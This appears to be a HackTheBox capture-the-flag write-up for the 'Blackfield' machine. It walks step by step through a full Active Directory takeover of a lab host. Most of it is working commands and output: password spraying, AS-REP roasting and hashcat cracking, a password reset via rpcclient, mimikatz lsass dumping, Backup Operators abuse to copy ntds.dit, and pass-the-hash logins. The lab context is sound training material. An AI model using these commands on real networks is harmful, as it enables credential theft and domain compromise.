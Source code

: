 ```yaml
---
title: "HTB: Blackfield"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Blackfield](/assets/images/Blackfield.PNG)

# Blackfield

## Initial Enumeration

We can see that a SMB share is open. If we connect to the smbshare with Guest:*blank* we can list the shares. The interesting share here is profiles$

```
smbclient Guest@10.10.10.192

# shares
ADMIN$
C$
forensic
IPC$
NETLOGON
profiles$
SYSVOL
```

profiles$ seems to give us a list of users, and since ldap and kerberos are both publically exposed, we can try seeing if any of these accounts don't have preauth set:


From here, we can use kerbrute to try a simple password spray against these usernames:

```
kerbrute passwordspray --dc 10.10.10.192 -d BLACKFIELD.local --user-as-pass userlist.txt -v
```

Only one account seems to exist, but it gives us a very interesting message:

```
2020/06/08 09:33:28 >  [!] support@BLACKFIELD.local:support - Got AS-REP (no pre-auth) but couldn't decrypt - bad password                               
```

It appears that this account is kerberoastable, but we'll need to add the domain "BLACKFIELD.local" to our /etc/hosts file first. After doing that, we can use impacket to get the krb5 hash, using a blank password:

```
GetNPUsers.py BLACKFIELD.local/support

$krb5asrep$23$support@BLACKFIELD.LOCAL:4d7b0ac10bb75f90b4b01004d2d679a1$d3cfdcd5f7aa151876e17385af9057c071fddcec5f4792d83a737f1b24d4b6cdd6d859fdc43c7d7c6e69b6900526f711cb23096ea32cad30fd4bfdf0d21076a08a4a81ae449dc8d59b26905f165b498c89a6d5820964171f4aa4adcc9f25d228758a4f7006451d6713359314e93feecebabcb62737197df1bb74a560f2727331c39015093a07721a58523908b366cd29e0792375dc7b91dff0ce11dc706d7650f56a159eb1085797b843e5186d11ed777f36a6f7d31b376939e2e02402aeb5e5e4b08f3920d1daa05f53b6b3a3f6ac5f54e708f2acfb80af59fab2bd91424ecc5d0d4e90a7eec7b6d96f3c1b17f96a280f4ce2cc
```

We can crack this with hashcat:

```
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --force

#00^BlackKnight
```

We have valid credentials:

**support:#00^BlackKnight**

We now need to check what they work on. This user doesn't have Remote Management rights, so we can't use winrm to remote into the machine. The credentials do work on smb, but don't give us anything we didn't have with the basic guest account. We can get a list of AD users, with GetADUsers.py:

```
GetADUsers.py -dc-ip 10.10.10.192 BLACKFIELD.local/support
#00^BlackKnight
```

While enumerating what else we can do with these credentials, we can consider what else this user might do for other users. Since a support user might reset passwords, we'll see if we can reset any passwords using rpcclient:

```
rpcclient -U support //10.10.10.192

setuserinfo2 audit2020 23 'thisISmyPASSWORD!'
```

This appears to go through, and lets us log in to SMB with the audit2020 user! While exploring smb with this user, we see that we now have access to the forensic folder.

Looking through the forensic folder, we see that there's an lsass.zip file in memory_analysis, that we can pull hashes from. To do this, we can transfer the zip over to a Windows VM, start up mimikatz with an administrator cmd.exe console, and use the following commands:

```
privilege::debug
sekurlsa::minidump lsass.DMP
sekurlsa::LogonPasswords
```

We get a number of hashes, but the most interesting are the Administrator and svc_backup hashes.

```
         * Username : Administrator
         * Domain   : BLACKFIELD
         * NTLM     : 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
         * SHA1     : db5c89a961644f0978b4b69a4d2a2239d7886368
         * DPAPI    : 240339f898b6ac4ce3f34702e4a89550


         * Username : svc_backup
         * Domain   : BLACKFIELD
         * NTLM     : 9658d1d1dcd9250115e2205d9f48400d
         * SHA1     : 463c13a9a31fc3252c68ba0a44f0221626a33e5c
         * DPAPI    : a03cd8e9d30171f3cfe8caad92fef621
```

We can use these hashes without cracking them with evil-winrm. The Administrator hash doesn't work, but svc_backup's hash still works:

```
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
```

Looking at our privileges show us that we're in the Backup Operators group, since we have the following privileges:

```
...
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
...
```

We'll can use the exploit at the following link to grab ntds.dit and get the hashes for every user on the box:

https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group

We'll use the following script named cmd, and put it in C:\Windows\temp\:

NOTE: We need to add a couple "spaces" after each line, or it'll cut off the characters at the end of each line.

cmd:
```
set context persistent nowriters 
add volume c: alias temp
create
expose %temp% z:
```

Now, we need to run diskshadow:

```
diskshadow.exe /s C:\windows\temp\cmd
```

We'll grab the two dlls from https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug and import them, then run the following to grab ntds.dit from our new Z: backup:

```
Copy-FileSeBackupPrivilege z:\windows\NTDS\ntds.dit c:\tmp\ntds.dit -Overwrite
```

We just need to grab SYSTEM to pull down the hashes:

```
reg save HKLM\SYSTEM system.save
```

Now, we can download these to our attacking machine using evil-winrm, and pull our the hashes with secretsdump.py from impacket:

```
secretsdump.py -system system.save -ntds ntds.dit LOCAL

...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
...
```

We don't need to crack this, since we can just pass the hash with evil-winrm!

```
evil-winrm -u Administrator -H 184fb5e5178480be64824d4cd53b99ee -i 10.10.10.192

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

Voila, we have root!

As a note, we could have also used psexec.py to get a SYSTEM level shell, but only the Administrator user can read root.txt

```
C:\Users\Administrator\Desktop>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
b'Access is denied.\r\n'
```
